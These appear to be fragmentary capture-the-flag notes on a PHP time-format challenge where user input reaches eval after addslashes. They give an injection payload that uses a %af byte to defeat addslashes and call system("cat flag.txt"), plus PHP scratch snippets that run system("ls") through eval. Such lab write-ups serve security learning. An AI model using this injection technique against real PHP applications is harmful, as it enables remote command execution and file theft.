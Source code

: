 
The php avriable $time is displayed in the view. We see whether we can manipulate the format.  
In TimeController:  
if format is set, the value is passed to the TimeModel without any validation/sanitization. The result of the initialization get assigned to the 'time' variable. The time.getTime() result is then passed to the view to be displayed.

In TimeModel:  
The format string is sanitized by using the addslashes php function. 

%af'%af");system(%af"cat flag.txt%af");%af');#


<?php
// Your code here!
$f='%bf%27';
$format = addslashes($f);
$format = '");\');';
$prediction = "+1 day +2 hour +3 minute + 4 second";
#eval('$time = date("' . $format . '");');
eval('$time = date(""); $time = "ll"; ');
echo isset($time) ? $time : 'Something went terribly wrong';
?>

 

<?php
// Your code here!
$f='%bf%27';
$format = addslashes($f);
$format = '");\');';
$prediction = "+1 day +2 hour +3 minute + 4 second";
#eval('$time = date("' . $format . '");');
eval('$time = date(""); $time = system("ls"); ');
echo isset($time) ? $time : 'Something went terribly wrong';
?>

